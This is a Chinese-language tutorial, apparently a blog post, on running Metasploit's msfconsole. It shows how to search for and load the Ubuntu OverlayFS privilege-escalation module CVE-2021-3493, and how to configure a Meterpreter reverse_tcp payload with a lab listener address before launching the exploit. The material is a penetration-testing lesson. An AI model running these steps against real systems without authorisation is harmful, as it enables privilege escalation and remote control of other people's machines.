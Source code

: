 # 原创
：  【kali-漏洞利用】（3.2）Metasploit基础（下）:MSF终端利用过程

# 【kali-漏洞利用】（3.2）Metasploit基础（下）:MSF终端利用过程

**目录**

[一、MSF终端简介](#%E4%B8%80%E3%80%81MSF%E7%BB%88%E7%AB%AF%E7%AE%80%E4%BB%8B)

[1.1、概述：](#1.1%E3%80%81%E6%A6%82%E8%BF%B0%EF%BC%9A)

[1.2、通用命令：](#1.2%E3%80%81%E9%80%9A%E7%94%A8%E5%91%BD%E4%BB%A4%EF%BC%9A)

[二、使用](#%E4%BA%8C%E3%80%81%E4%BD%BF%E7%94%A8)

[2.1、MSFCONSOLE漏洞利用](#2.1%E3%80%81MSFCONSOLE%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8)

[第一步：终端启动MSFCONSOLE](#%E7%AC%AC%E4%B8%80%E6%AD%A5%EF%BC%9A%E7%BB%88%E7%AB%AF%E5%90%AF%E5%8A%A8MSFCONSOLE)

[第二步：寻找模块](#%E7%AC%AC%E4%BA%8C%E6%AD%A5%EF%BC%9A%E5%AF%BB%E6%89%BE%E6%A8%A1%E5%9D%97)

[第三步：使用模块](#%E7%AC%AC%E4%B8%89%E6%AD%A5%EF%BC%9A%E4%BD%BF%E7%94%A8%E6%A8%A1%E5%9D%97)

[第四步：查看有效选项](#%E7%AC%AC%E5%9B%9B%E6%AD%A5%EF%BC%9A%E6%9F%A5%E7%9C%8B%E6%9C%89%E6%95%88%E9%80%89%E9%A1%B9)

[第五步：设置payload](#%E7%AC%AC%E4%BA%94%E6%AD%A5%EF%BC%9A%E8%AE%BE%E7%BD%AEpayload)

[第六步：执行渗透攻击](#%E7%AC%AC%E5%85%AD%E6%AD%A5%EF%BC%9A%E6%89%A7%E8%A1%8C%E6%B8%97%E9%80%8F%E6%94%BB%E5%87%BB)

---


## 一、MSF终端简介

> 
<h3>1.1、概述：</h3>
MSF终端(MSFCONSOLE)是目前Metasploit框架最为流行的用户接口，因为MSF终端是Metasploit框架中最灵活、功能最丰富及支持最好的工具之一
<hr/>
MSFCONSOLE主要用于管理Metasploit数据库， 管理会话、配置并启动Metasploit模块。本质上来说， 就是为了利用漏洞， MSFCONSOLE将获取用户连接到主机的信息，以至于用户能启动渗透攻击目标系统


> 
<h3>1.2、通用命令：</h3>
help: 查看执行命令的帮助信息<br/> use module: 加载选择的模块<br/> set optionname module: 为模块设置不同的选项<br/> run: 启动一个非渗透攻击模块<br/> search module: 搜索一个特定的模块<br/> exit: 退出MSFCONSOLE


---


---


## 二、使用

> 
<h3>2.1、MSFCONSOLE漏洞利用</h3>
<h4>第一步：终端启动MSFCONSOLE</h4>
以管理员身份运行
sudo msfconsole<br/><img alt="" height="438" src="https://img-blog.csdnimg.cn/1ad8543afbe34a9a8dda439c497f278f.png" width="836"/>
出现msf提示符了，就登录成功了 
<hr/>
<h4>第二步：寻找模块</h4>
使用search加上自己想找的模块（相当于模糊查询）
使用search命令搜索所有有效的Linux模块
search linux

<hr/>
<h4>第三步：使用模块</h4>
使用use+模块名
Ubuntu内核OverlayFS权限逃逸漏洞
use exploit/linux/local/cve_2021_3493_overlayfs
(就试一下这第一个)

<hr/>
<h4>第四步：查看有效选项</h4>
show options
可以看见有4个模块，且都是必须的
Current Setting（当前设置）
已经有3个已经设置了

还需要设置session
<pre><code>Module options (exploit/linux/local/cve_2021_3493_overlayfs):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   COMPILE  Auto             yes       Compile on target (Accepted: Auto, True, False)
   SESSION                   yes       The session to run this module on


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.190.149  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

</code></pre>
<hr/>
<h4>第五步：设置payload</h4>
使用set + payload名 + 设置的东西
(像这一样)

<hr/>
<h4>第六步：执行渗透攻击</h4>
输入exploit


#### 第一步：终端启动MSFCONSOLE

---


#### 第三步：使用模块

---


#### 第五步：设置payload
